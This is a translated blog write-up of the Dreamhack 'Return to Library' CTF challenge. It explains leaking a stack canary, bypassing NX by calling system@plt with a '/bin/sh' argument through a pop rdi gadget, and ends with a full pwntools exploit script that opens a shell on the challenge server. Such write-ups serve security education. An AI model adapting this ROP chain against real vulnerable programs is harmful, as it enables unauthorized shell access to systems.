




# dreamhack.io: Return to Library (RTL)

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224303062367). Translated and reformatted in English.

In this problem, we will learn Return To Library (RTL), a widely known attack technique to bypass NX.

First, let's scan for vulnerabilities using checksec. If ASLR is not mentioned here, it can be understood as applied. However, for executables with PIE turned off, the code segment and data segment addresses of the main binary are fixed even when ASLR is turned on.

ASLR ON + PIE OFF

→ libc, stack, heap, etc. can be randomized

→ However, the code/data address of the main binary is fixed.

→ The “/bin/sh” address in the binary is also fixed.

ASLR ON + PIE ON

→ The main binary itself is also randomized

→ The “/bin/sh” address also changes every time.

Let's get Canary first. When outputting a string, %s continues to output until it encounters \x00, which is a null byte. So here we need to get from buf start address to canary start position.

Do (rbp - 0x8) - (rbp - 0x40). That is, 56 in decimal... You can see that you need to do A*57 to cover \x00, which is the beginning of the canary. First of all, Canary:

From now on we will use RTL. When NX is turned on, executing shellcode placed in the stack does not work.

However, the method just mentioned is not a shellcode execution, but an RTL / ROP method that reuses system(), an existing code. So you can bypass NX.

The key difference is this.

General stack shellcode attack

→ Insert shellcode into buf

→ Cover the return address with the buf address

→ Execute the code in the stack

→ Blocked by NX

Whereas now the way it is:

RTL/ROP attack

→ Do not add shellcode to the stack

→ Cover the return address with the system@plt address

→ Call system() in an already executable code area

→ Pass “/bin/sh” address as argument

→ Does not directly conflict with NX

There are currently 4 values required:

canary, system@plt address, "/bin/sh" address, ret gadget address

why pop rdi; If ret is necessary, in 64-bit Linux, the first argument of the function is passed to the rdi register.

That is, to call system("/bin/sh"):

rdi = "/bin/sh" address

It should be rip = system@plt.

First, 0x0000000000400754 <+93>: call 0x4005d0 <system@plt>. First of all, the address of system@plt here is 0x4005d0.

/bin/sh is entered as a global variable.

const char* binsh = "/bin/sh";

If PIE is turned off, this address is static. You can check this in gdb:

p &binsh

p binsh

x/s binsh

Note that &binsh and binsh are different.

&binsh = address of the binsh pointer variable itself

binsh = Address containing the string "/bin/sh"

All the attack needs is the binsh value, i.e. the "/bin/sh" string address.

i.e. 0x400874

Now you need to find the return gadget.

I usually find it like this in the terminal:

ROPgadget --binary ./rtl | grep "pop rdi"

Or:

ropper --file ./rtl --search "pop rdi"

For example, if the result is like this:

0x0000000000400853 : pop rdi ; ret

Then:

pop_rdi = 0x400853

The code is AI

from pwn import *

context.arch = "amd64"
context.os = "linux"

e = ELF("./rtl")

HOST = "host3.dreamhack.games"
PORT = 8390

p = remote(HOST, PORT)

system_plt = e.plt["system"]
binsh = 0x400874

rop = ROP(e)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

log.info(f"system@plt = {hex(system_plt)}")
log.info(f"pop rdi = {hex(pop_rdi)}")
log.info(f"ret = {hex(ret)}")
log.info(f"binsh = {hex(binsh)}")

# 1. leak canary
p.recvuntil(b"Buf: ")

payload = b"A" * 0x39
p.send(payload)

p.recvuntil(b"A" * 0x39)

leak = p.recvn(7)
cnry = u64(b"\x00" + leak)

log.success(f"canary = {hex(cnry)}")

# 2. exploit
p.recvuntil(b"Buf: ")

payload = b"A" * 0x38
payload += p64(cnry)
payload += b"B" * 0x8
payload += p64(ret) # stack alignment
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

p.send(payload)

p.sendline(b"cat flag")
p.interactive()
